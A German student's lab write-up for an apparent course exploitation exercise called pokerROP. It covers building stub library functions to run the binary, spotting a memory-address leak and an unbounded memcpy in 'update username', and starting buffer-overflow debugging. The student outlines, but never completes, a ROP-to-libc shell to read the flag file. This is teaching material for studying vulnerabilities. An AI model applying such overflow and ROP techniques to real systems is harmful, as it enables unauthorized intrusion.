

Die Library wird mit prototypen gefuellt. Nach einem erneutem Kompilieren werden die refrenzen erkannt, aber die implementierung Fehlt. 



Um nun erfolgreich compilieren zu koennen muss die Notwendige libinetsec.o erstellt werden. Diese wird mit den Funktionen befuellt, wobei die Funktionen keine Funktion haben.

	#include "libinetsec.h"

	void init_canary(byte *canary, char *user, char *pass){}

	book check_canary(byt *canary1, byte *canary2){return 1;}

	int auth_user(char *user, char * pass){return 1;}

	book check_user(char *user, char *pass){return 1;}

Es wird erneut Kompiliert. hierzu wurde nach einigen errors ohne Flags, das GCC Manual und Dr.Google befragt. 

Folgende parameter wurden zum kompilieren verwendet:

-fPIC : Position Independet Code (benoetigt fuer die Sharded-Library

-shared : um eine Shared Library zu erstellen. 

Der ganze Befehl wurde so ausgefuehrt:

	$ gcc -c -fPIC -o libinetsec.o libinetsec.c
	$ gcc -shared -o libinetsec.so libinetsec.o

Beim Versuch das pokerROP binary nun auszufuehren kam folgende Fehlermeldung.

	./pokerROP: error while loading shared libraries: libinetsec.so: wrong ELF class: ELFCLAS

Dies wies auf eine falsche Architektur der kompilierten binary hin. Es musste sowohl die gcc-Multilib zum Crosscompilen nachinstalliert, als auch das "-m32" Flag beim Kompiliervorgang hinzugefuegt werden um erfolgreich auf einem x64 System eine x86 Binary zu kompilieren.

Leider beendete sich die Binary sofort mit einem Segmentation fault.

Vor dem erfolgreichen Kompilieren der pokerROP.c mussten zuvor ein paar Fehler im C-Code ausgebessert werden. Auch mussten die zuvor erstellen Funktionen in der Header-Datei angepasst werden, um den erwarteten Werten im Programm zu entsprechen.

Nach viel zu langem troubelshooting, und dem wiederholen der kompletten Arbeitsschritten in 2 verschiedenen neu aufgesetzten VM's, konnte das Binary gestartet werden.

### Suche nach potentiel ausnutzbaren Vulnerabilities

Erste Versuche sich am Binary einzuloggen waren erfolglos aufgrund eines Berechtigungsfehlers. Das Binary , und somit der Server der Applikation, musste mit erhoehten Berechtigungen gesartet werden. 



Anschliessend konnte sich in meinem Fall mit dem Localhost via netcat verbunden werden und nach mehreren Stunden Troubleshooting endlich mit der eigentlichen Aufgabe fortgefahren werden.

Vom anzeigen der Security Warnings beim compilieren zuvor, wissen wir, dass die Funktion "list_accounts" falsch implementiert worden ist. Ein Type-Fehler gibt die Speicheradresse einer Variable an, anstatt die Variable anzuzeigen. Daher versuchen wir als erstes einen Account Anzulegen mit "AM" um diesen dann anzeigen zu lassen.



Wir sehen etwas dass wie eine Adresse aussieht. Unsere Vermutung duerfte sich bestaetigt haben.

Wir wissen nun einerseits, dass die "update username" Funktion moeglicherweise unsauber implementiert ist, und dass wir ueber die "list  tournaments" Funktion die Memory-Adresse anzeigen koennen.

Wir sehen uns also als naechstes die "update username" Funktion im Code an. 



Das Hantieren mit den unsicheren Versionen von Memorymanipulationsfunktionen fuehrt oft zu Schwachstellen im Code. In unserem Fall faellt sofort auf, dass der 3. Parameter der memcpy keine Laenge sondern einen Wert uebergibt. Korrekter weise muesste die Laenge des zu kopierenden Werts mit zB: der Laenge der variable durch 

	len(username)
	
 beschraenkt werden.

### Untersuchen der Canaries und des BO

Um genauer das Verhalten zu untersuchen wurder Code in VS Code genauer untersucht.

Die Prototypen in der Headerdatei wurden darauf hin erweitert.

	#include "libinetsec.h"

	void init_canary(byte *canary, char *pass){
		*canary = 'A';
	}

	int check_canary(byte *canary1, char *canary2){
		return *canary1 == *canary2;
	}

	int auth_user(char *user, char *pass){
		return 1;
	}

	int check_usr(char *user, char *pass){

		return 1;
	}

Als naechsten Schritt wird eine lange Zeichenfolge an das Programm als Wert fuer die Funktion "update username" geschickt, um zu sehen an welcher Stelle die Register ueberschrieben werden. Um auch zu sehen an welcher Stelle sich die Register befinden wurde auch gleich ein eindeutiges Pattern mit dem in Kali enthaltenen "pattern_create.rb" erstellt und dieses der Funktion uebergeben.

Um das Debugging vorzunehmen wurde edb verwendet. Hier muss man einfach den Prozess starten und in den Debugger attachen.



Leider gab es erhebliche schwierigkeiten mit der Toolchain und inkompatibilitaeten zwischen Architekturversionen der benutzen Programme. Und so ist leider sehr viel Zeit nur zum Troubleshooting drauf gegangen.

Leider liessen mich diesmal meine Python Faehigkeiten im Stich.

Die weitere vorgehensweise waere gewesen, herausfinden woher die geleakete Adresse kommt. Da die libc.so.6 mitgeliefert wurde liegt die Vermutung nahe, dass sich die geleakte Adresse innerhalb der Library befindet und man mit den von der C_Library mitgelieferten Funktionen eine Shell oeffnet. Eine "einfache" Anleitung dazu findet man zum Beispiel unter "Stack Buffer Overflows: Linux 3 - Bypassing DEP with ROP" [^2] .

[^2]: https://reboare.github.io/bof/linux-stack-bof-3.html

Den Befehl zum Anzeigen des Inhalts des bei der Verbindung schon Angezigten Files "cs19m018_flag.txt" wird dann mittels der Aufgebauten shell uebertragen.

Falls es ein Write-Up gibt oder die Moeglichkeit eines Kurzen feedbacks zu BSP4 wuerde mich sehr stark interessieren wo mein Fehler lag und muss schweren Herzens, aufgrund der Aeusseren Umstaende nach mehreren durchgemachten Naechten das Handtuch schmeissen.

Die Aufgaben 1 und 4 haben aber, trotz des Fehlenden Erfolgserlebnisses bei Aufgabe 4, viel spass gemacht!